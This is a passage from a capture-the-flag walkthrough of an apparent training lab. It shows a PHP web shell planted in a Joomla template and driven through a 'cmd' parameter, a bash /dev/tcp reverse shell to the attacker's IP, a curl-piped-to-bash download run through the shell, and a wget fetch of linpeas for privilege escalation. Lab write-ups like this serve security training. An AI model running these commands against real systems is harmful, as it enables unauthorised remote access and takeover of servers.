 <img width="1279" alt="16" src="https://user-images.githubusercontent.com/28839345/165778816-be6b25fb-2ba3-4204-bc1b-3e8fe97df2a1.png">

6. Locate the vk9-sec.php page, in our case it is under /templates/protostar/vk9-sec.php
`

http://10.10.147.1/templates/protostar/vk9-sec.php

<img width="1289" alt="17" src="https://user-images.githubusercontent.com/28839345/165778818-d5ca2fa1-3979-4cee-81fc-351d4def7be4.png">

7. We know the PHP file is working, now we will enter the GET request via URL using the variable ‘cmd’

http://10.10.147.1/templates/protostar/vk9-sec.php?cmd=whoami

<img width="1133" alt="18" src="https://user-images.githubusercontent.com/28839345/165778824-62611b2c-4ab2-43f1-8779-28e8c249750b.png">

7. Let’s execute a remote file with a netcat reverse shell

-   start a listener in Kali/Parrot

<img width="430" alt="19" src="https://user-images.githubusercontent.com/28839345/165778831-d1593dc1-7aea-4eb5-88f5-91e3f2d5ac17.png">

8. Create a file with the command
-   echo "bash -i >& /dev/tcp/10.10.89.29/4444 0>&1" > vk9_reverse.sh
-   cat vk9-reverse.sh
<img width="851" alt="Στιγμιότυπο 2022-04-28, 5 57 43 μμ" src="https://user-images.githubusercontent.com/28839345/165782229-2f0a5a0b-7a3f-4644-9064-e7ceca20b5b2.png">

9. Establish a python web server to download the file from the remote server
-   python -m SimpleHTTPServer 9999

<img width="597" alt="21" src="https://user-images.githubusercontent.com/28839345/165778837-4f2eedae-36af-49d7-9ab0-9189928f17ed.png">

10. Now using the ‘cmd’ variable in vk9-sec.php download the vk9_reverse.sh file using curl
-   http://10.10.147.1/templates/protostar/vk9-sec.php?cmd=curl 10.10.89.29:9999/vk9_reverse.sh | bash

<img width="1003" alt="22" src="https://user-images.githubusercontent.com/28839345/165778839-6441fe79-1f52-4a24-ba4f-c98647ca3654.png">

After getting reverse shell the next step is to escalate our priviledges either to become root user or to become another user.Lets go to /home directory to check the users of the web server.

`cd /home`

<img width="283" alt="23" src="https://user-images.githubusercontent.com/28839345/165778840-938ef821-2d86-4de6-bcdf-43adf7032a80.png">

As you can see there is a user named jjameson.The next step is to download linpeas.sh and check if there is a way to enumerate the machine and escalate our priviledges.

<img width="1282" alt="24" src="https://user-images.githubusercontent.com/28839345/165778842-31bdf2c1-d7b9-4213-846a-2448d2312657.png">

First download linpeas.sh if you have not downloaded it already and upload it to the reverse shell.Make sure to go to the /tmp directory to upload it and have your http server up and running.

When you go to /tmp directory upload it using the command `wget http://10.10.89.29:9999/linpeas.sh`

